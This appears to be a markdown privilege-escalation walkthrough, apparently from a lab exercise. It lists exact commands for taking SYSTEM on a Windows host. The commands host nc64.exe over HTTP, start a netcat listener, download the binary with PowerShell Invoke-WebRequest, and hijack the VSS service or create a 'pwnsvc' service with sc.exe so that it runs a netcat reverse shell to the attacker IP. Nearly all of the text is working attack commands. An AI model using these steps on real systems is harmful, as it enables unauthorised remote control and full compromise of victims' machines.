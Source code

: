 
## Files you need on attacker

- `nc64.exe` (or other reverse shell binary) can upload via winrm
    
- Optional: PowerShell reverse shell script (`ps_rev.ps1`) if `nc` is blocked
    

Host `nc64.exe` on your attacker machine for quick retrieval: e.g. or upload via winrm

```bash
# in folder with nc64.exe
python3 -m http.server 80
```

---

## Step‑by‑step (exact commands)

**1) Start listener on attacker**

```bash
nc -lnvp 443
```

**2) Upload `nc64.exe` to target**  
From an interactive shell on target (Evil‑WinRM, RDP, interactive CMD/PowerShell):

```powershell
# simple download using PowerShell (replace attacker IP)
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.6/nc64.exe' -OutFile 'C:\ProgramData\nc64.exe'"
```

Alternative: use SMB push (smbclient, smbmap, etc.) if available.

**3) Configure an existing service to run our command**  
_Note: using `cmd.exe /c` wraps the reverse shell command so it launches correctly._

```cmd
cd C:\Windows\System32
sc.exe config VSS binpath= "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443"
sc.exe start VSS
```

If modifying a core service is blocked, create a temporary service:

```cmd
sc.exe create pwnsvc binpath= "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443" start= demand
sc.exe start pwnsvc
```

**4) Observe listener**  
Expect `nc` to connect back. Once connected:

```
whoami
# should show: NT AUTHORITY\SYSTEM
```

---